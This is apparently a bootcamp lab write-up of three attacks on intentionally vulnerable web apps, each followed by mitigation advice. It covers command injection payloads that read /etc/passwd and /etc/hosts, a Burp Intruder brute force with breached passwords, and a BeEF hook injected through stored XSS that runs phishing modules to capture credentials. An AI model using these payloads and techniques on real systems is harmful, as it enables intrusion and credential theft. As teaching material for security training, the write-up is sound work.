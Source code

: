 ## Web Application 1: Your Wish is My Command Injection
1.  Complete the following steps to walkthrough the intended purpose of the web application.
    * Access Vagrant and RUN 
      ```bash
         cd ./Documents/web-vulns && docker-compose up
      ```

    * Open a browser and navigate to the following webpage: http://192.168.13.25

    * The web page should look like as the figure below

    * Log in with the following credentials:
      *    Usernmae: admin
      *    Password: password

    * Select the **Command Injection** or access this page directly http://192.168.13.25/vulnerabilities/exec/
    * Entering the IP address `8.8.8.8` press **Submit** to see the results display on the web application.

![Web Application 1_1](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web%20Vulnerabilities%20and%20Hardening/Images/Web%20Application%201_1.png)


* Behind the scenes, when we select Submit, the IP you type in the field is injected into a command that is run against the Replicants webserver. The specific command that ran on the webserver is `ping <IP>` and `8.8.8.8` is the field value that is injected into that command.


2.  Now that we have determined that Replicants new application is vulnerable to command injection, we will tasked with using the dot-dot-slash method to design two payloads that will display the contents of the following files:

      - `/etc/passwd`
   
      - `/etc/hosts`


<details>
<summary> <b> Click here to view Design Command Injection Payloads. </b> </summary>

---

#### How to manipulate the input to cause an unintended result 
   
- In the terminal, enter the following command (payload) in the field: `8.8.8.8 && cat ../../../../../etc/passwd`
   
![Web Application 1_cat_passwd_1](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web%20Vulnerabilities%20and%20Hardening/Images/Web%20Application%201_cat_passwd_1.png)
![Web Application 1_cat_passwd_2](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web%20Vulnerabilities%20and%20Hardening/Images/Web%20Application%201_cat_passwd_2.png)

- On the same webpage, enter the following command (payload) in the field: `8.8.8.8 && cat ../../../../../etc/passwd`
   
![Web Application 1_cat_passwd_1](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web%20Vulnerabilities%20and%20Hardening/Images/Web%20Application%201_cat_passwd_1.png)
   
- In the terminal, enter the following command (payload) in the field: `8.8.8.8 && cat ../../../../../etc/hosts`
   
![Web Application 1_4](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web%20Vulnerabilities%20and%20Hardening/Images/Web%20Application%201_4.png)

- On the web browser, enter the following command (payload) in the field: `8.8.8.8 && cat ../../../../../etc/hosts`
   
![Web Application 1_5](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web%20Vulnerabilities%20and%20Hardening/Images/Web%20Application%201_5.png)
   

#### Mitigation Strategies

1. **Input validation** is a method to validate the data input with a predefined logic, ensuring that the input is what the application is expecting. Input validation can be applied on the client-side or the server-side. For example,
   
|          | Function | Example    |
|----------|----------|------------|
| **Client-side**| Input validation involves coding the predefined logic into the webpage.                   | An input can only be chosen from a predefined drop-down menu.     |
| **Server-side**| Input validation involves adding the predefined logic into the code on the web server.    | If a user enters a malicious SQL code and selects submit, then the web server will check and remove it after receiving this malicious input.     |

2. **Avoid Command-Line Calls Altogether** The first prevention method you can do is avoiding command line calls. Because when we’re using command lines, it opens users to risk such as command injection. 
   
3. **Use Built-in APIs Instead of OS Commands** Another method is to shift from using Operating System (OS) commands to much-safer APIs, considering that most reputable APIs have built-in security measures. 
   
4. **Reject Unacceptable Code** We can also use server-level protection, which is blacklisting a set of codes. Simply by only allowing the codes we and our team built prevents any other code from accessing the server. Thus, creating a barrier between the malicious codes and the whole server.
   
5. **Escaping Shell Metacharacters** Also, to prevent any other characters and limit the output of commands, we can use escaping shell metacharacters. This method allows us to expressly grant access depending on the variables. Our developer can set these variables based on our needs.    
   
   
</details>

---


## Web Application 2: A Brute Force to Be Reckoned With
1.  Complete the following steps to walkthrough the intended purpose of the web application.
    * Access Vagrant and RUN 
      ```bash
         sudo burpsuite
      ```

    * Open the Firefox browser and navigate to the following webpage: http://192.168.13.35/install.php.

    * The web page should look like as the figure below. Click **here** to install bWapp.

    * After successfully installing bWapp, log in with the following credentials:
       - Username: bee
       - Password: bug


    * To access the application where we will perform our activity, enter in the following URL: http://192.168.13.35/ba_insecure_login_1.php
    
    * On Firefox browser, make sure the FoxyProxy settings is set to **Burp**.

![Web Application 2_1](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web%20Vulnerabilities%20and%20Hardening/Images/Web%20Application%202_1.png)

- This page is an administrative web application that serves as a simple login page. An administrator enters their username and password and selects Login:
     - Username: test-user
     - Password: password

![Web Application 2_2](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web%20Vulnerabilities%20and%20Hardening/Images/Web%20Application%202_2.png)

* Following was displayed in the Burp Suite in **Proxy** tab under the Intercept - Highlighting the **Login and password** credentials.

![Web Application 2_3](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web%20Vulnerabilities%20and%20Hardening/Images/Web%20Application%202_3.png)

* From the web application tool Burp Suite, on the **Intercept** tab, right click anywhere to send the information to **Intruder** 
 
   -  Select the **Intruder** tab, and verify the Target tab

![Web Application 2_4](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web%20Vulnerabilities%20and%20Hardening/Images/Web%20Application%202_4.png)
![Web Application 2_5](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web%20Vulnerabilities%20and%20Hardening/Images/Web%20Application%202_5.png)

   -  Select the **Positions** tab and change the attack type to **Cluster bomb**, also **clear** all payload positions, except for the login and password credentials.

![Web Application 2_6](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web%20Vulnerabilities%20and%20Hardening/Images/Web%20Application%202_6.png)

* We've been provided with a list of administrators and the breached passwords:
* [ ] [List of Administrators](listofadmins.txt)
* [ ] [Breached list of Passwords](breached_passwords.txt)


<details>
<summary> <b> Click here to view How to conduct a brute force attack. </b> </summary>

---


#### How to conduct a brute force attack against a web application login page with the Burp Intruder function 
   
* Select **Payloads** tab and enter the [List of Administrators](listofadmins.txt) file that provided above into the **Payload Options [Simple list]** for Payload set: 1  

![Web Application 2_7](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web%20Vulnerabilities%20and%20Hardening/Images/Web%20Application%202_7.png)
   
- Add the password from the [Breached list of Passwords](breached_passwords.txt) file that provided above into the **Payload Options [Simple list]** for Payload set: 2  
   
![Web Application 2_8](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web%20Vulnerabilities%20and%20Hardening/Images/Web%20Application%202_8.png)

- Click the **Start** attack button to get the results.
   
![Web Application 2_9](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web%20Vulnerabilities%20and%20Hardening/Images/Web%20Application%202_9.png)

- Results from the analysis that was complete from the Intruder show that there was one successful login username/password combination. 
   
![Web Application 2_10](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web%20Vulnerabilities%20and%20Hardening/Images/Web%20Application%202_10.png)
   
- It was user name of **" tonystark"** and the password **"I am Iron Man"**. Below snapshots display the successful login in the **Response** tab.

![Web Application 2_11](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web%20Vulnerabilities%20and%20Hardening/Images/Web%20Application%202_11.png)
   

#### Mitigation Strategies

**Developers** can use several mitigation methods to protect against a brute force attack:

   1.) Require complex usernames and passwords:
For example, require the user to include special characters, upper and lowercase, and numbers in the username and password.

   2.) Lockout accounts after a number of failed attempts:
For example, after three failed login attempts, the user's account gets locked.

   3.) Use multi-factor authentication (MFA):
For example, require users to have a password and a secondary form of authentication, like a pin generated by an external token and/or requiring complex usernames and passwords. 
   
   
</details>

---


### Web Application 3: *Where's the BeEF?*

1. Access Vagrant, open the terminal and and run the command

```
sudo beef
```
When prompted for a password, enter `cybersecurity`.

2. This will kick off the BeEF application and return many details about the application to your terminal. We can access to BeEF's User Interface (UI) by right-click the first URL and select Open Link `UI_URL: http://127.0.0.1:3000/ui/panel`. 

   - When the BeEF webpage opens, login with the following credentials:
     - Username: `beef`
     
     - Password: `feeb`

     ![wd_hw11](Images/wd_hw11.png)

   - You have successfully completed the setup when you have reached the **BeEF Control Panel** shown in the image below:

     ![wd_hw12](Images/wd_hw12.png)

3. Prepare the Replicants website, from the Terminal in Vagrant navigate to ~/Documents/web-vulns directory by

```
cd ~/Documents/web-vulns
```
and run the command

```
sudo docker-compose up
```
![Web Application 3_3.png](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web%20Vulnerabilities%20and%20Hardening/Images/Web%20Application%203_3.png)

   - Go to the web browser and enter the following in the address bar `http://192.168.13.25/vulnerabilities/xss_s/` then reset the database and login with the following credentials:
     - Username: `admin`
     
     - Password: `password`
     
     
3. The BeEF hook, which was returned after running the `sudo beef` command was: `http://127.0.0.1:3000/hook.js`
![Web Application 3_4.png](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web%20Vulnerabilities%20and%20Hardening/Images/Web%20Application%203_4.png)

- The payload to inject with this BeEF hook is: `<script src="http://127.0.0.1:3000/hook.js"></script>`. 

- When trying to inject the payload there was an issue found, in the message box field, there was a limit of `maxlength="50"` character in the source code. Therefore we could not inject the payload.
![Web Application 3_5.png](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web%20Vulnerabilities%20and%20Hardening/Images/Web%20Application%203_5.png)

- Solution to solve this issue, right-click on web page < click **Inspector** < In **Inspector windows** scrolling down till we see the `<textarea name="mtxMessage"
cols="50" rows="3" maxlength="50">` then now we can edit from 50 to any bigger number  
![Web Application 3_6.png](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web%20Vulnerabilities%20and%20Hardening/Images/Web%20Application%203_6.png)

Now we are able to hook into Replicants website, so next we will attempt a couple BeEF exploits including:

   - Social Engineering >> Pretty Theft

   - Social Engineering >> Fake Notification Bar

   - Host >> Get Geolocation (Third Party)


<details>
<summary> <b> Click here to view How to Exploiting XSS with BeEF. </b> </summary>

---


#### How to conduct a brute force attack against a web application login page with the Burp Intruder function 

- First, we'll attempt a social engineering exploit to create a fake Log-in to user. We can use this to capture victim credentials.
- To access this exploit, navigate to **BeEF Control Panel** < select current hooked browser < go to **Commands** tab < expanding **Social Engineering** < click **Google Phishing**.
- To launch th exploit, click **Execute** button in the bottom right corner.

![Web Application 3_8.png](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web%20Vulnerabilities%20and%20Hardening/Images/Web%20Application%203_8.png)   

- After executed, return to the browser that has been changed to a Google Mail Login page.     
   
![Web Application 3_9.png](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web%20Vulnerabilities%20and%20Hardening/Images/Web%20Application%203_9.png)
   
- The victim could easily mistake entering their credentials. Use the following credentials to login to this fake Google Mail page.
   
![Web Application 3_10.png](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web%20Vulnerabilities%20and%20Hardening/Images/Web%20Application%203_10.png)   
   
- Return to the BeEF control panel, in the center windows we'll see the module history command. Click that command to see the results in the last windows panel.
   
![Web Application 3_11.png](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web%20Vulnerabilities%20and%20Hardening/Images/Web%20Application%203_11.png)  
   
- As we saw, the username and password have been captured. Now we can try on another method as the following:
   
   - Social Engineering >> Pretty Theft

![Web Application 3_12.png](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web%20Vulnerabilities%20and%20Hardening/Images/Web%20Application%203_12.png) 
   
![Web Application 3_13.png](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web%20Vulnerabilities%20and%20Hardening/Images/Web%20Application%203_13.png) 
   
![Web Application 3_14.png](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web%20Vulnerabilities%20and%20Hardening/Images/Web%20Application%203_14.png) 

   - Social Engineering >> Fake Notification Bar
![Web Application 3_15.png](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web%20Vulnerabilities%20and%20Hardening/Images/Web%20Application%203_15.png) 

   - Host >> Get Geolocation (Third Party)
![Web Application 3_16.png](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web%20Vulnerabilities%20and%20Hardening/Images/Web%20Application%203_16.png)
   
#### Mitigation Strategies

**BeEF** is an exploitation tool that focuses on a specific client-side application: the web browser. BeEF allows an attacker to inject a JavaScript code into a vulnerable HTML code using an attack such as XSS or SQL injection. This exploit code is known as hook. A compromise is achieved when the hook is executed by the browser. The browser (zombie) connects back to the BeEF application, which serves JavaScript commands or modules to the browser. BeEF's modules perform tasks such as the following:

   1.) Fingerprinting and the reconnaissance of compromised browsers. It can also be used as a platform to assess the presence of exploits and their behavior under different browsers.

   2.) Detecting software on the client (Internet Explorer only) and obtaining a list of the directories in the Program Files and Program Files (x86)directories. This may identify other applications that can be exploited to consolidate our hold on the client.

   3.) Taking photos using the compromised system's webcam; these photos have a significant impact in reports.
   
   4.) onducting searches of the victim's data files and stealing data that may contain authentication credentials (clipboard content and browser cookies)  or other useful information.
   
   5.) Implementing browser keystroke logging.
   
   6.) onducting network reconnaissance using ping sweeps and fingerprint network appliances and scanning for open ports.
   
   7.) Launching attacks from the Metasploit Framework.
   
   8.) Using the tunneling proxy extension to attack the internal network using the security authority of the compromised web browser.
   
Because BeEF is written in Ruby, it supports multiple operating systems (Linux, Windows, and OS X). More importantly, it is easy to customize new modules in BeEF and extend its functionality.
   
There may be both technical recommendations (e.g., applying a particular patch) and non-technical recommendations that address the organization’s processes (e.g., updating the patch management process).

1. Deployment of OS and application patches. Maintaining and updating a patch management program is a necessary component in reducing the attack surfaces. 

2. Security architecture changes. External and Internal networks should be separated by different trust boundaries, with packet filtering controls at the nodes in order to reduce an attacker’s access to sensitive information.

3. Review file permissions and use the least privilege principle.

4. Conduct regular vulnerability assessments. Regular vulnerability assessments are needed for the timely discovery and patching of new previously undiscovered vulnerabilities.
   
5. Defend web applications against the OWASP Top 10 Security Risks - Policy, process, and procedure modifications including deployment of new security technologies.   
   
   
   
</details>

---




---

### Citations and References:

#### General Resources:

- InfoTech News. Command Injection: What It Is And How To Prevent It. [cited 2021 September 29]. Available from: [meterpreter.org](https://meterpreter.org/command-injection-what-it-is-and-how-to-prevent-it/).
- Akshat Khare. Parth Chopra. Rahul Motwani. Web Applications Penetration Testing. Center of Excellence in Cyber Systems and Information Assurance (CoE-CSIA), IIT Delhi. [cited 2021 October 1]. Available from: [cse.iitd.ac.in](https://www.cse.iitd.ac.in/~cs1160315/WebPenetrationTesting.pdf)
- Karen Scarfone (NIST), Murugiah Souppaya (NIST), Amanda Cody (BAH), Angela Orebaugh (BAH). Technical Guide to Information Security Testing and Assessment. NIST National Institute of Standards and Technology. [cited 2021 October 1]. Available from:[nist.gov/publications](https://nvlpubs.nist.gov/nistpubs/Legacy/SP/nistspecialpublication800-115.pdf).
- Robert W. Beggs. Mastering Kali Linux for Advanced Penetration Testing. ISBN 978-1-78216-312-1. Packt Publishing Ltd. [cited 2021 October 1]. Available from: [Mastering Kali Linux for Advanced Penetration Testing 3rd Edition](https://www.amazon.com/Mastering-Linux-Advanced-Penetration-Testing/dp/178934056X)


#### Special thanks:
© Trilogy Education Services, a 2U, Inc., Instructor Jerry and TAs; Matt, Jansen, Micheal.

© The University of Texas at Austin Boot Camp, The Cybersecurity program.

---
